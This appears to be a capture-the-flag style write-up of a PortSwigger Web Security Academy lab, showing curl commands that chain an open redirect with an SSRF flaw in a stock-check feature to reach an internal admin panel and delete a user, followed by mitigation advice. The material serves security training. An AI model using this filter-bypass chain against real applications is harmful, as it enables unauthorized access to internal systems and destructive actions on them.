




# SSRF Filter Bypass via Open Redirection

**Lab URL**: https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection

## Lab Description (contains spoilers)

This lab demonstrates how to bypass SSRF filters using an open redirection vulnerability.

The application has a stock check feature that loads data from an internal system, URL is filtered to prevent direct SSRF attacks but there's an open redirection vulnerability that can be exploited to bypass these filters.

## Writeup

First let's explore the lab and identify the stock check feature

```bash
curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/" | bat
```

The main page is displayed here



In the main page html we can find the product detail link



Lets curl it and see the response.



There are a couple of interesting things here:

1. The javascript code that is executed when the page is loaded
2. The path parameter on this link: ```<a href="/product/nextProduct?currentProductId=1&path=/product?productId=2">| Next product</a>```

Lets explore the javascript code to understand the client-side behavior of this page:

This code is adding an event listener to the form that we've seen in the previous screenshot (with the id "stockCheckForm") to the submit event, this event will call the function "stockCheck" with the method "POST", the action "product/stock" and the form data as a parameter, the first javascript snippet will mostly turn the payload into a x-www-form-urlencoded string and provide the application/x-www-form-urlencoded header to the request.

```javascript
# stockCheckPayload.js
window.contentType = 'application/x-www-form-urlencoded';

function payload(data) {
    return new URLSearchParams(data).toString();
}

# stockCheck.js
document.getElementById("stockCheckForm").addEventListener("submit", function(e) {
    checkStock(this.getAttribute("method"), this.getAttribute("action"), new FormData(this));
    e.preventDefault();
});

function checkStock(method, path, data) {
    const retry = (tries) => tries == 0
        ? null
        : fetch(
            path,
            {
                method,
                headers: { 'Content-Type': window.contentType },
                body: payload(data)
            }
          )
            .then(res => res.status === 200
                ? res.text().then(t => isNaN(t) ? t : t + " units")
                : "Could not fetch stock levels!"
            )
            .then(res => document.getElementById("stockCheckResult").innerHTML = res)
            .catch(e => retry(tries - 1));

    retry(3);
}
```

Now let's explore the application behavior more deeply. First, let's examine the stock check form more carefully:

```bash
curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/product/stock" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "stockApi=/product/stock/check?productId=1&storeId=1"
```

This works as expected and returns stock information. Now let's try to exploit the SSRF vulnerability directly by attempting to access the internal admin interface:

```bash
curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/product/stock" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "stockApi=http://192.168.0.12:8080/admin"
```

Response: `"Invalid external stock check url 'Invalid URL'"`

As expected, the SSRF is blocked. The application has a filter that validates the `stockApi` parameter and prevents direct access to external URLs, particularly internal network addresses.

Now let's test the open redirection vulnerability we found in the `path` parameter:

```bash
curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/product/nextProduct?currentProductId=1&path=http://portswigger.net" -v
```

Response: `HTTP/2 302` with `location: http://portswigger.net`


It redirects to portswigger.net, so the open redirect works. The application doesn't validate the `path` parameter and will redirect to any URL we provide. This is the key vulnerability we'll exploit to bypass the SSRF filter.

**Why can't we exploit the path parameter directly for SSRF?**

The `path` parameter is used by the `/product/nextProduct` endpoint, which simply performs an HTTP redirect (302). It doesn't make a server-side request to the URL like the stock check feature does. The SSRF vulnerability is specifically in the stock check functionality where the server makes an HTTP request to the provided URL.

The stock check endpoint (`/product/stock`) is the one vulnerable to SSRF because:
1. It accepts a `stockApi` parameter
2. It makes an actual HTTP request to that URL from the server
3. It returns the response from that request

However, the stock check endpoint has URL filtering that prevents direct access to internal systems.

The open redirect endpoint (`/product/nextProduct`) doesn't have SSRF because:
1. It only performs a redirect, not a server-side request
2. The redirect happens on the client-side (browser follows the 302)

**The Exploit Chain**

We need to chain these vulnerabilities:
1. Use the open redirect to bypass the URL filter in the stock check
2. The stock check will follow the redirect to the internal admin interface
3. This gives us indirect SSRF access to internal systems

Let's craft our exploit:

**Note**: In this lab, the target IP `192.168.0.12:8080` and admin panel location are provided in the lab description. In a real-world scenario, you would need to discover this information through network enumeration, port scanning, and path discovery techniques.

```bash
curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/product/stock" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin"
```

This works because:
1. `stockApi` starts with `/` (allowed - same domain)
2. The server requests `/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin`
3. The `nextProduct` endpoint redirects to `http://192.168.0.12:8080/admin`
4. The stock check follows the redirect and accesses the internal admin interface

**Important note about URL encoding**: The `&` character needs to be URL-encoded as `%26` because we're embedding a complete URL with query parameters inside another URL's query parameter. If we used `&` directly, it would be interpreted as a separator for the outer URL's query parameters, not as part of the inner `path` parameter. The server would see `currentProductId=1` and `path=http://192.168.0.12:8080/admin` as separate parameters, which is not what we want. By URL-encoding it as `%26`, we ensure the entire string `currentProductId=1&path=http://192.168.0.12:8080/admin` is treated as a single value for the `stockApi` parameter.

Response:



With access to the admin panel, we can delete the user carlos:

```bash
curl -s "https://0a5c008e0345538c8358963400c600ae.web-security-academy.net/product/stock" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos"
```

Response:


This last request obliterated the user carlos, solving the lab.

## Mitigation

1. **Validate all redirects**: Ensure redirects only go to allowed, whitelisted domains
2. **Filter SSRF targets**: Implement strict allowlists for URLs that can be accessed
3. **Network segmentation**: Separate internal services from external-facing applications
4. **URL validation**: Properly parse and validate URLs before making requests, specially when performing server-side requests

[Back to the main README](../README.md)
